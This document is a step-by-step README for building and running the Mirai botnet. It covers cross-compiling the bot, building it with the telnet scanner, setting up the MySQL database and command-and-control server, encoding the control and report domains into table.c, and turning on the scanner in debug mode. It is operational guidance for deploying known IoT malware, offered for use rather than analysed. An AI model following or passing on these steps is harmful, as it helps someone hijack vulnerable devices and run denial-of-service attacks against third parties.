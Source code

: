 # Mirai Setup Instruction

## Step 1: Update and upgrade, 
use root priviledge to make things easier
```
sudo su
apt-get update -y
apt-get upgrade -y
```

## Step 2: run cross-compile.sh 
navigate into the scripts folder  
This script download and compile xcompiler for you.  
See script for detail.
```
cd scripts
./x-compile.sh
```
## Step 3: Install go packages:
```	
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```

## Step 4: building mirai
Naviage to the mirai folder where the script located  
the output files will be in the debug folder, with cnc and mirai.dbg
```	
./build.sh debug telnet
```

## Step 5: Database setup 
This is for secure database installation
Set up Table and create user  
(read the last line in db.sql, that's the user that we create to log in to cnc)

```
/usr/bin/mysql_secure_installation
cd scripts
mysql -u root -p
-enter password-
source db.sql;
quit;
```

## Step 6: Database continuing
edit main.go file located in ../mirai/cnc  
assuming you set the database password as root

e.g.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "root"
const DatabaseTable string  = "mirai"
```

## Step 7: to run cnc
1. 
restart mysql: service mysql restart  
navigate to debug foler: cd /mirai/debug  
run the cnc: ./cnc

2. then telnet to access cnc
in windows or ubuntu, use Putty; in Mac, simply telnet in terminal
e.g.
telnet localhost

login credential(set in step 5):  
username: root  
password: root


**setup complete**
***


## Other configuration:
### table.c:
we need to encrypt cnc-domain and report domain and put it in table.c  
Mirai use this to resovle your domain

run:
```
./enc ip 127.0.0.1 or ./enc string www.example.com 
```
If you want to build the release version, remember to copy promtp.txt into the release folder, because admin.go file reads it, if the file not found, will not create connection.

In debug mode, the scanner is turn-off by default, need to edit it in mian.c:158 , so the scanner can run in debug mode.

**Very Important!!**: use sudo to execute!!! 






